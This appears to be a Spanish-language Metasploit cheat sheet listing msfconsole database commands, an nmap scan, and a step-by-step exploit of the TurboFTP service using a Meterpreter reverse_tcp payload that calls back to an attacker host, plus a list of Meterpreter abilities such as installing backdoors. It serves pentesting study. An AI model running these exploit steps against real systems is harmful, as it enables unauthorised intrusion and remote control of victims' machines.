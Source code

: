 ```
spool [file]: Escribe la salida de la consola en un archivo y también en la pantalla
save: Guarda los datastores activo
db_nmap [option] [IP]: Usar nmap en Metasploit
hosts: Lista todos los hosts en la base de datos
services: Lista todos los servicios en la base de datos
vulns: Lista todas las vulnerabilidades en la base de datos
run/exploit: Ejecutar el exploit configurado
```

<h4 id="metasploit-3">Ejemplo de uso nmap en Metasploit</h4>

```
msfdb init
msfconsole
db_status
db_nmap -sV 192.168.10.200
hosts
services
vulns
```

<h4 id="metasploit-4">Ejemplo de explotación de Turbo FTP</h4>

```
msfconsole
use exploit/windows/ftp/turboftp_port
info
show options
set RHOST 192.168.1.10
set FTPUSER example
set FTPPASS example123
set payload windows/meterpreter/reverse_tcp
show options
set LHOST 192.168.1.4
set LPORT 1234
exploit
```

<h3 id="meterpreter">Meterpreter</h3>

Payload especial con características diseñadas para el pentesting. Corresponde a una Shell, que puede correr en aplicaciones y servicios vulnerables de: Android, BSD, Java, Linux, PHP, Python y Windows.

Dentro de las cosas que pueden hacer con Meterpreter, se tiene lo siguiente:
-	Information Gathering:
 -	Información de la máquina
 -	OS
 -	Red
 - Tabla de rutas
 -	Usuarios que corren el proceso explotado
-	Transferir archivos
-	Instalar backdoors
-	Tomar screenshots
-	Etc.
